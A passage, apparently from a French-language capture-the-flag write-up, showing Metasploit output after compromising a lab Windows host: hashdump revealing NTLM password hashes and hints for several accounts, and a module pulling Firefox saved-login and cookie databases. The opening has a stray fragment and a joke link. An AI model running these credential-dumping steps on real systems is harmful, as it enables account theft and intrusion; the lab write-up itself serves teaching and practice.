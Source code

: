 ```plain
                so it is done.

                    * * *
```

[Hail Satan !](https://www.youtube.com/watch?v=8iqcId_8KVE)  

La suite a consisté à extraire quelques hashs et passwords :  

```plain
meterpreter > run hashdump

[!] Meterpreter scripts are deprecated. Try post/windows/gather/smart_hashdump.
[!] Example: run post/windows/gather/smart_hashdump OPTION=value [...]
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 825c9e5d797816cc73c2a5734112d6c7...
/usr/share/metasploit-framework/lib/rex/script/base.rb:134: warning: constant OpenSSL::Cipher::Cipher is deprecated
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
/usr/share/metasploit-framework/lib/rex/script/base.rb:268: warning: constant OpenSSL::Cipher::Cipher is deprecated
/usr/share/metasploit-framework/lib/rex/script/base.rb:272: warning: constant OpenSSL::Cipher::Cipher is deprecated
/usr/share/metasploit-framework/lib/rex/script/base.rb:279: warning: constant OpenSSL::Cipher::Cipher is deprecated
[*] Dumping password hints...

Gilfoyle:"         "
Nelson:"password"

[*] Dumping password hashes...

Gilfoyle:500:aad3b435b51404eeaad3b435b51404ee:9216302ed9e7d9f717156ec796aeb69a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
nginx:1000:aad3b435b51404eeaad3b435b51404ee:639c9d1b2c2afc36e5009c6f1c65cefd:::
Nelson:1002:aad3b435b51404eeaad3b435b51404ee:9de26a8b86512e11228e8ab1c7955dec:::
```

```plain
msf post(multi/gather/firefox_creds) > run

[*] Checking for Firefox profile in: C:\Users\nginx\AppData\Roaming\Mozilla\
[-] Firefox was not found (Missing profiles.ini)
[*] Checking for Firefox profile in: C:\Users\Nelson\AppData\Roaming\Mozilla\
[*] Checking for Firefox profile in: C:\Users\Administrator\AppData\Roaming\Mozilla\

[*] Profile: C:\Users\Nelson\AppData\Roaming\Mozilla\Firefox\Profiles\to6utj94.default
[+] Downloaded cert8.db: /root/.msf4/loot/20181215141619_default_10.10.10.112_ff.to6utj94.cert_961508.bin
[+] Downloaded cookies.sqlite: /root/.msf4/loot/20181215141620_default_10.10.10.112_ff.to6utj94.cook_650166.bin
[+] Downloaded key3.db: /root/.msf4/loot/20181215141622_default_10.10.10.112_ff.to6utj94.key3_532842.bin

[*] Profile: C:\Users\Administrator\AppData\Roaming\Mozilla\Firefox\Profiles\nbpe2hdg.default
[+] Downloaded cert8.db: /root/.msf4/loot/20181215141623_default_10.10.10.112_ff.nbpe2hdg.cert_445097.bin
[+] Downloaded cookies.sqlite: /root/.msf4/loot/20181215141624_default_10.10.10.112_ff.nbpe2hdg.cook_196527.bin
[+] Downloaded key3.db: /root/.msf4/loot/20181215141626_default_10.10.10.112_ff.nbpe2hdg.key3_603216.bin
[+] Downloaded logins.json: /root/.msf4/loot/20181215141626_default_10.10.10.112_ff.nbpe2hdg.logi_599016.bin

```